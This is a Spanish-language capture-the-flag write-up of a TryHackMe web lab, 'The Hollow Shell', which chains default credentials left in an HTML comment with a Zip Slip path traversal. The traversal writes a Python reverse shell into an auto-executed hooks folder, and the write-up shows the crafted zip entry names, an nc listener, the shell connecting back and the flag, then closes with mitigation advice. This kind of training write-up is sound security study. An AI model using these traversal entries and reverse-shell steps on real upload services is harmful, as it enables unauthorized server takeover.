Plataforma
TryHackMe
Se explotó un panel de gestión de "shells" decorativas del resort que permitía subir archivos .zip sin validar rutas internas (Zip Slip). Esto permitió escribir un payload malicioso directamente en el directorio de hooks/, donde el "theme worker" del sistema lo ejecutaba automáticamente, otorgando ejecución remota de código y una shell interactiva en el servidor.
El reto "The Hollow Shell" (Día 10, categoría Web, dificultad Medium) presentaba el siguiente briefing: una aplicación del resort permite a los huéspedes personalizar la pantalla en la habitación subiendo una "shell" — un souvenir digital tomado de la playa — que luego el equipo de staff publica a través del portal Shoreline Display. Una vez que la shell queda "held to the room's ear", se reproduce en las tablets de la habitación.
# Briefing del reto
Category: Web
Difficulty: Medium
Room Access: http://MACHINE_IP
Se inició con un escaneo de puertos sobre la IP asignada:
nmap -p- --min-rate=1000 -T4 10.67.153.21
PORT STATE SERVICE
22/tcp open ssh
5000/tcp open upnpEl puerto 5000 resultó ser donde realmente corría la aplicación web, más allá de que nmap lo identificara genéricamente como upnp.

Al acceder a http://10.67.153.21:5000 se presentó la página de login del portal Byte Lotus — Shoreline Display, un panel de "staff sign-in" restringido a personal autorizado.

Como paso estándar de reconocimiento, se inspeccionó el código fuente de la página de login antes de intentar cualquier ataque de fuerza bruta o inyección. El HTML contenía un comentario dejado por el equipo de IT con credenciales de arranque:
# view-source de /login
<!--
Byte Lotus // internal display-manager portal
New on the floor team? IT seeds every property with the same
starter login until you set your own:
user: concierge
pass: StayNoticed2024!
(rotate it from Settings on first sign-in — most people forget)
-->
Con las credenciales concierge / StayNoticed2024! se obtuvo acceso al panel autenticado Room Service / Shoreline Display. El panel permitía subir "shells" en formato .zip — paquetes souvenir que debían contener un manifiesto shell.json listando sus assets (imágenes, hojas de estilo). El propio panel advertía que las shells podían incluir "automation hooks" opcionales, aplicados automáticamente por un "theme worker" poco después de que la shell llegara a la costa.

Se identificaron dos fallas encadenables:
../../ruta/archivo lograba escribirse fuera del directorio de destino esperado (shells/<id>/).hooks/, ejecutándolo sin restricciones. Si un atacante lograba escribir un archivo Python allí mediante Zip Slip, el worker lo ejecutaría como si fuera un hook legítimo.png jpg gif svg css json) solo se aplicaba a la extensión del nombre del asset, no a la ruta completa dentro del zip. Esto permitió confirmar rápidamente que el filtro era superficial: un archivo con extensión no permitida (evil.txt) era rechazado, pero el filtro no validaba secuencias ../ en el path.Paso 1 — Confirmación de subida básica. Se subió un .zip de prueba simple para entender el comportamiento normal del endpoint:
Shell 'test shell' brought ashore. Stored at shells/59e244625289/ and held to the room's ear.
Paso 2 — Prueba de validación de assets. Se intentó incluir un archivo con extensión no permitida dentro del zip:
Shell rejected: asset type not allowed: evil.txtEsto confirmó que la validación ocurría a nivel de extensión de archivo, sin considerar la ruta completa del entry dentro del zip — el vector de entrada para Zip Slip.

Paso 3 — Confirmación de Zip Slip. Se construyó un .zip con una entrada cuyo nombre contenía secuencias ../, apuntando a una ruta fuera del directorio de destino (shells/<id>/), específicamente hacia static/:
# Estructura del zip malicioso (nombres de entry manipulados)
shell.json
../../static/zipslip_proof.jsonTras subir el zip, se accedió directamente a la ruta de destino fuera del sandbox esperado:
GET http://10.67.153.21:5000/static/zipslip_proof.json
{
"proof": "zip slip write confirmed"
}
Paso 4 — Delimitación de la raíz del proyecto. Se probó la profundidad de ../ necesaria para alcanzar distintos directorios. Con dos niveles (../../) la escritura fue exitosa; al intentar un tercer nivel el servidor devolvió un error 500, lo que permitió ubicar la raíz del proyecto en el filesystem:
500 Internal Server Error
The server encountered an internal error and was unable to complete your request.
Paso 5 — RCE vía automation hook. Con la ruta de hooks/ identificada relativa a la raíz del proyecto, se construyó un .zip con una entrada que apuntaba a esa carpeta, conteniendo un payload Python de reverse shell. Se configuró un listener y se subió la shell maliciosa:
# Listener en la máquina atacante
nc -lvnp 4444
# El zip incluía una entrada tipo:
../../hooks/payload.py
# Contenido de payload.py: reverse shell estándar en Python
# ejecutado automáticamente por el "theme worker" al detectar
# el nuevo archivo en hooks/Tras la subida, el "theme worker" procesó el hook y ejecutó el payload, estableciendo conexión con el listener:
listening on [any] 4444 ...
connect to [192.168.136.224] from (UNKNOWN) [10.67.153.21] 37106
/bin/sh: 0: can't access tty; job control turned off
$
Paso 6 — Obtención de la flag. Con acceso a shell como el usuario roomservice, se localizó la flag del reto:
roomservice@tryhackme-2404:/var/www/conch$ cat /home/roomservice/flag.txt
THM{z1p_slip3d_1nt0_a_sh3ll}
La cadena de vulnerabilidades resultó en compromiso remoto completo del servidor:
hooks/) que confiaba ciegamente en cualquier archivo colocado en esa carpeta.roomservice, con acceso al filesystem de la aplicación en /var/www/conch.El impacto es critical: la combinación de un filtro de validación superficial (solo extensión, no ruta) con un mecanismo de automatización sin sandboxing convierte una función de "subir souvenirs decorativos" en un vector directo de ejecución remota de código, sin necesidad de explotar ningún componente adicional del sistema operativo.
../ o resuelva fuera del directorio base.os.path.commonpath entre el destino resuelto y el directorio base antes de escribir cada archivo).roomservice) no debería tener permisos de escritura fuera de su directorio de trabajo ni sobre carpetas usadas por procesos de automatización.Este reto es un caso de manual de Zip Slip: una vulnerabilidad conocida desde hace años pero que sigue apareciendo porque las validaciones de subida de archivos suelen enfocarse en el tipo de contenido y no en la ruta de destino. Validar la extensión de un archivo (png, jpg, json) no dice nada sobre si el nombre de esa entrada dentro del zip intenta escapar del directorio esperado.
El segundo hallazgo clave es que la severidad real no vino del Zip Slip en sí mismo, sino de la combinación con un mecanismo de automatización preexistente en el sistema (el "theme worker" + hooks/). Un simple path traversal de escritura de archivos es de por sí serio, pero cuando existe un componente del sistema dispuesto a ejecutar cualquier cosa que aparezca en cierto directorio, la escritura arbitraria se convierte automáticamente en RCE. La lección: al evaluar el impacto de un file write arbitrario, siempre vale la pena mapear qué otros procesos del sistema leen o ejecutan contenido de forma automática — ahí suele estar el salto de severidad.